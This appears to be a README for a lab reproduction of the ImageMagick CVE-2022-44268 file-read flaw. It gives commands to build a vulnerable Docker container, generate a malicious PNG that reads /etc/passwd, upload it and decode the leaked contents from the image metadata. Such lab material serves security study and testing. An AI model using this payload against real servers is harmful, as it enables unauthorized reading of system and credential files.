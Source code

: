 ## How to use

### 1. Clone the project 
`git clone git@github.com:AltSolution/CVE.git`

### 2. Build docker image with vulnerable version of ImageMagic
```
cd CVE/CVE-2022-44268/
docker build -t cve-2022-44268 .
docker run -p 80:80 -d cve-2022-44268
```


### 3. Generate payload 

```
mkdir ~/cve-payload
cd mkdir ~/cve-payload
git clone https://github.com/voidz0r/CVE-2022-44268.git
apt install cargo
cargo run "/etc/passwd"
```


### 3. Make exploitation

1. Upload payload to http://127.0.0.1

2. Download result image to local folder

3. Extract useful metadata

`identify -verbose output.png`

4. Copy output of profile field to https://gchq.github.io/CyberChef/

5. Use "FromHex" and get result and get clear data.
